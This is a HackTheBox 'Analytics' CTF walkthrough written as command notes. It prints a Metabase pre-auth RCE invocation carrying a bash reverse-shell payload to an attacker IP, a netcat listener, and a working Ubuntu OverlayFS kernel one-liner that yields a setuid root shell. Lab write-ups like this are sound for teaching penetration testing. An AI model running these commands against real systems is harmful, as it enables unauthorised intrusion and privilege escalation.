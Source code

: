 # 💎 HTB: Analytics - Command Notes

## 🔍 Scanning & Enumeration

```bash
ping <Analytics IP Address>                            # Verify host is up (TTL ~63 = Linux)
sudo nmap -T4 -A -p- <Analytics IP Address>            # Full aggressive scan
nano /etc/hosts                                        # Map domain + subdomain
# Example entry: <Analytics IP> analytical.htb data.analytical.htb
```

---

## 🕸️ [Web Application Analysis](HTTP)

```http
http://data.analytical.htb/auth/login                 # Found Metabase login portal
```

---

## 📌 Exploit CVE-2023-38646 (Metabase Pre-Auth RCE)

**Reference:** [GitHub - m3m0o/metabase-pre-auth-rce-poc](https://github.com/m3m0o/metabase-pre-auth-rce-poc)

```bash
# Get setup-token
curl http://data.analytical.htb/api/session/properties

# Start listener
sudo nc -nlvp 4444

# Launch exploit
python3 main.py -u http://data.analytical.htb -t <setup-token> -c "bash -i >& /dev/tcp/<your-IP>/4444 0>&1"
```

---

## 🐚 [Shell](SSH) Access & User PrivEsc

```bash
cd /home/metabase                                    # Check for user flag (none found)
env                                                  # Enumerate environment variables
ssh metalytics@<Analytics IP>                        # SSH using creds from env
cat user.txt                                         # Get user flag
```

---

## ⛏️ Privilege Escalation (Kernel Exploit)

### Check Permissions & Environment

```bash
id                                                   # Check UID/GID
mkdir /opt/testdir                                   # Check directory write permissions (denied)
find / -type f \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2>/dev/null
cat /proc/version                                    # Find kernel version: Ubuntu 22.04.2
```

### Exploit CVE-2023-2640 / CVE-2023-32629

**Reference:** [GitHub - g1vi/CVE-2023-2640-CVE-2023-32629](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629)

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; \
setcap cap_setuid+eip l/python3; \
mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && \
u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && \
chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```

---

## 🔐 Root Access

```bash
cat /root/root.txt                                   # Get root flag
```